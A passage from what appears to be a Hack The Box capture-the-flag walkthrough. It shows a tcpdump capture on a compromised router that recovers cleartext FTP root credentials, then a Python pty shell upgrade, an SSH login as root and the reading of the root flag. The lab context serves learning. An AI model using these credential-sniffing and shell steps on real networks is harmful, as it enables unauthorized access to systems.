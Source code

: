 ```
root@r1:~# tcpdump -vv -s0 -ni eth2 -c 10 port 21
tcpdump: listening on eth2, link-type EN10MB (Ethernet), capture size 262144 bytes
[...]
13:53:01.528076 IP (tos 0x10, ttl 63, id 11657, offset 0, flags [DF], proto TCP (6), length 63)
    10.78.10.2.50692 > 10.120.15.10.21: Flags [P.], cksum 0x2e03 (incorrect -> 0x75af), seq 1:12
	USER root
[...]
13:53:01.528248 IP (tos 0x10, ttl 63, id 11658, offset 0, flags [DF], proto TCP (6), length 74)
    10.78.10.2.50692 > 10.120.15.10.21: Flags [P.], cksum 0x2e0e (incorrect -> 0xa290), seq 12:34
	PASS BGPtelc0rout1ng
```

### Logging to the server with root credentials and getting the system flag

Note: We can log in directly from the HTB network to the box IP with the FTP credentials, but in this example we'll log in from `r1`. We have to first enable an interactive pty so we can SSH.

```
# python3 -c 'import pty;pty.spawn("/bin/bash")'
root@r1:~# ssh root@10.120.15.10
root@10.120.15.10's password: BGPtelc0rout1ng

Welcome to Ubuntu 18.04 LTS (GNU/Linux 4.15.0-24-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
[...]

root@carrier:~# ls
ls
root.txt  secretdata.txt
root@carrier:~# cat root.txt

cat root.txt
2832e...
```
